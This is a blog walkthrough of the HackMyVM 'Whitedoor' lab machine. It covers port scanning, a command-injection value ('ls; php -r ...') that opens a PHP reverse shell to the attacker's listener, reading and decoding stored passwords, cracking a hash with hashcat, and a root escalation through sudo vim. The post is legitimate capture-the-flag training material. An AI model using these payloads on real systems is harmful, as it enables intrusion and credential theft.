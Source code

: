 ```yaml
---
title: "Whitedoor - Pylon"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Whitedoor
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Whitedoor - Pylon
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|Whitedoor|
|Author:|[Pylon](https://hackmyvm.eu/profile/?user=Pylon)|
|Release date:|2023-12-15|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|reverse shell|

# 01. Entry
[Whitedoor](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor) is the second machine from [Pylon](https://hackmyvm.eu/profile/?user=Pylon). It is easier than the previous one and is recommended for beginners, if someone has not had any experience with this "sport", they can have some fun with it, and for the rest it is a piece of cake, which does not mean that it is bad.
{: .text-justify}
# 02. Beginning
In the beginning there was scanning:
{: .text-justify}
```bash
msf6 exploit(multi/handler) > workspace -a whitedoor
[*] Added workspace: whitedoor
[*] Workspace: whitedoor
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.179
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-15 09:08 CET
[*] Nmap: Nmap scan report for whitedoor.lan (172.16.1.179)
[*] Nmap: Host is up (0.00060s latency).
[*] Nmap: Not shown: 65532 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 21/tcp open  ftp     vsftpd 3.0.3
[*] Nmap: | ftp-anon: Anonymous FTP login allowed (FTP code 230)
[*] Nmap: |_-rw-r--r--    1 0        0              13 Nov 16 22:40 README.txt
[*] Nmap: | ftp-syst:
[*] Nmap: |   STAT:
[*] Nmap: | FTP server status:
[*] Nmap: |      Connected to ::ffff:172.16.1.89
[*] Nmap: |      Logged in as ftp
[*] Nmap: |      TYPE: ASCII
[*] Nmap: |      No session bandwidth limit
[*] Nmap: |      Session timeout in seconds is 300
[*] Nmap: |      Control connection is plain text
[*] Nmap: |      Data connections will be plain text
[*] Nmap: |      At session startup, client count was 3
[*] Nmap: |      vsFTPd 3.0.3 - secure, fast, stable
[*] Nmap: |_End of status
[*] Nmap: 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   256 3d:85:a2:89:a9:c5:45:d0:1f:ed:3f:45:87:9d:71:a6 (ECDSA)
[*] Nmap: |_  256 07:e8:c5:28:5e:84:a7:b6:bb:d5:1d:2f:d8:92:6b:a6 (ED25519)
[*] Nmap: 80/tcp open  http    Apache httpd 2.4.57 ((Debian))
[*] Nmap: |_http-server-header: Apache/2.4.57 (Debian)
[*] Nmap: |_http-title: Home
[*] Nmap: MAC Address: 08:00:27:CD:91:8F (Oracle VirtualBox virtual NIC)
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.8
[*] Nmap: Network Distance: 1 hop
[*] Nmap: Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.60 ms whitedoor.lan (172.16.1.179)
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.33 seconds
msf6 exploit(multi/handler) > services 
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.179  21    tcp    ftp   open   vsftpd 3.0.3
172.16.1.179  22    tcp    ssh   open   OpenSSH 9.2p1 Debian 2+deb12u1 protocol 2.0
172.16.1.179  80    tcp    http  open   Apache httpd 2.4.57 (Debian)
```
There are 3 ports open:
{: .text-justify}
- **21/tcp** - FTP
- **22/tcp** - SSH
- **80/tcp** - Apache WWW

# 03. Reverse shell i WWW
There was nothing interesting on the ftp, it was a bit of a misnomer. But when we enter the website we see something like this:
{: .text-justify}
![01](/assets/images/hacking/2023/06/01.png)
{: .text-justify}
We see the message that only the **ls** command works:
{: .text-justify}
On the server, which I checked, there is probably no **nc** command, but we can immediately go further and do something like this:
## 03a. Listening 
On our server we run:
{: .text-justify}
```bash
nc -lvn -p 12345
```
```bash
listening on [any] 12345 ...
```
## 03b. Web browser 
And in the web browser window we enter:
{: .text-justify}
```bash
ls; php -r '$sock=fsockopen("172.16.1.89",12345);exec("bash <&3 >&3 2>&3");'
```
After a while, **shell** will connect to us::
{: .text-justify}
```bash
connect to [172.16.1.89] from (UNKNOWN) [172.16.1.179] 58258
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
www-data@whitedoor:/var/www/html$ 
```
Sorry - **Pylon** - I took some shortcuts.
{: .text-justify}
# 04. Shell
Type commands:
{: .text-justify}
```bash
cd /home/
find .
```
```bash
find: './Gonzalo': Permission denied
./whiteshell
./whiteshell/Downloads
./whiteshell/.profile
./whiteshell/.local
./whiteshell/.local/share
find: './whiteshell/.local/share': Permission denied
./whiteshell/.bash_logout
./whiteshell/Documents
./whiteshell/Public
./whiteshell/Pictures
./whiteshell/Music
./whiteshell/.bashrc
./whiteshell/Desktop
./whiteshell/Desktop/.my_secret_password.txt
./whiteshell/.bash_history
```
```bash
cat ./whiteshell/Desktop/.my_secret_password.txt
```
```bash
whiteshell:*****
```
We see the password, which is encoded with **Base64**. We decode twice and have access to the **whiteshell** account:
{: .text-justify}
```bash
base64 -d <<< haselkowbase64
```
# 04. User whiteshell
Being in the whiteshell account, we list all files from the **/home** directory
{: .text-justify}
```bash
find /home/
```
```bash
/home/Gonzalo/.bash_logout
/home/Gonzalo/Documents
/home/Gonzalo/Public
/home/Gonzalo/Pictures
/home/Gonzalo/Music
/home/Gonzalo/.bashrc
/home/Gonzalo/Desktop
/home/Gonzalo/Desktop/user.txt
/home/Gonzalo/Desktop/.my_secret_hash
```
# 05. User Gonzales
We have a password that is easy to crack in the program: **Hashcat** or **John**
{: .text-justify}
```bash
hashcat -O -m3200 -a0 hashe\whiteshell.txt dict\rockyou.txt
```
# 06. root
Type:
{: .text-justify}
```bash
Gonzalo@whitedoor:~$ sudo -l
```
```bash
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```
```bash
sudo /usr/bin/vim
```
In the **Vim** program:
{: .text-justify}
```bash
:!bash
```

